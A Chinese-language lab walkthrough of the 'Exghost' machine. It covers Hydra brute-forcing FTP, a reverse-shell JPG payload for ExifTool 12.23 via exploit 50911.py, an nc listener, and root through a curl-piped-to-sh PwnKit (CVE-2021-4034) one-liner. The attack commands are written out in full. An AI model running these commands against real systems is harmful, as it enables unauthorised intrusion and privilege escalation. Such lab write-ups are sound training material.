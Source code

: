 ```yaml
---
description: Easy - Linux：ExifTool 12.23
---
```


# ✔️ Exghost

## 建立立足点

### 信息枚举

使用Nmap对目标进行开放端口扫描，获得2个开放端口：

<figure><img src="../.gitbook/assets/1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

首先对80端口的Web网页进行检查，无收获：

<figure><img src="../.gitbook/assets/2 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

然后尝试以Anonymous身份登录FTP服务，也没有收获。因此，尝试使用暴力破解，获得登录凭证：<mark style="color:red;">**user:system**</mark>

```bash
// 用Hydra对目标FTP进行暴力破解尝试
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt ftp://192.168.160.183 -V
```

<figure><img src="../.gitbook/assets/3 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

登录FTP后获取到一个backup文件，将它下载到kali本地后，发现它是一个PCAP文件，用Wireshark打开并查看其HTTP流相关数据包：

{% hint style="info" %}
本例中关于目标FTP服务开启了被动模式，因此登录后并不能下载目标文件，需要关闭这个被动模式，才能成功下载。

<img src="../.gitbook/assets/6 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt="" data-size="original">

```bash
// 登录FTP后，直接输入：
passive
```
{% endhint %}

<figure><img src="../.gitbook/assets/5 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
// FTP服务中：
get backup
// Kali本机中，检查该文件的属性：
file backup
```

### 漏洞查找

使用Wireshark打开backup文件后，过滤HTTP数据包，发现了：

* <mark style="color:red;">**/exiftest.php**</mark>：一个上传图片的路径
* 已成功上传了一个testme.jpg的图片
* 使用的是<mark style="color:red;">**ExifTool**</mark>，其版本号为：<mark style="color:red;">**12.23**</mark>

<figure><img src="../.gitbook/assets/7 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

尝试查找ExifTool 12.23的公开已知漏洞，发现确实有一个任意代码执行的漏洞，将其下载后发现是一个用于将反弹shell的payload写入一个jpg文件的脚本：

```bash
searchsploit exiftool 12.23
```

<figure><img src="../.gitbook/assets/10 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

```
// 将利用脚本下载到Kali本地：
searchsploit -m 50911.py .
// 查看其使用方法：
python3 50911.py -h
// 制作payload，得到名为image.jpg的图片文件:
python3 50911.py -s 192.168.45.200 4444
```

<figure><img src="../.gitbook/assets/11 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/12 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

首先在Kali本机监听与payload对应的端口：4444

```bash
// Kali本机：
nc -lvnp 4444
```

然后将制作好的payload（image.jpg）上传到目标，等待反弹回来的shell：

```bash
// 在payload所在的文件夹
curl -v -F myFile=@image.jpg http://192.168.160.183/exiftest.php
```

<figure><img src="../.gitbook/assets/13 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

成功获得反弹shell，并查找到local.txt文件：

<figure><img src="../.gitbook/assets/14 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## 提升权限

### 本地信息收集

<figure><img src="../.gitbook/assets/15 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

当手动枚举无明确收获时，可使用工具进行枚举，如：

* LinEnum.sh
* LinPEAS.sh

本例使用LinEnum.sh，在Kali本机开启一个简易的服务器，将脚本传到目标上，直接运行该脚本：

```bash
// Kali本机：
python3 -m http.server
// 目标主机：
curl http://192.168.45.220:8000/LinEnum.sh -o linenum.sh
chmod +x linenum.sh
./linenum.sh
```

<figure><img src="../.gitbook/assets/16 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞查找

本例中，我是直接尝试搜索目标系统内核版本的相关漏洞，发现有可能可以尝试利用的脚本，所以直接root了。个人感觉LinPEAS.sh相较于LinEnum.sh来说更详细和高效，推荐用LinPEAS.sh来进行本地信息枚举。

<figure><img src="../.gitbook/assets/18 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

找到本例中的目标系统易受内核漏洞CVE-2021-4034的攻击，同时找到其GitHub上的可利用脚本<mark style="color:red;">**PwnKit.sh**</mark>&#x20;

{% hint style="info" %}
MEMO.

* [https://github.com/ly4k/PwnKit/tree/main](https://github.com/ly4k/PwnKit/tree/main)
* [https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------](https://ine.com/blog/exploiting-pwnkit-cve-20214034?source=post\_page-----0b50df883a65--------------------------------)
{% endhint %}

### ROOT

开箱即用，一键root：

```bash
sh -c "$(curl -fsSL http://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"
```

<figure><img src="../.gitbook/assets/19 (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
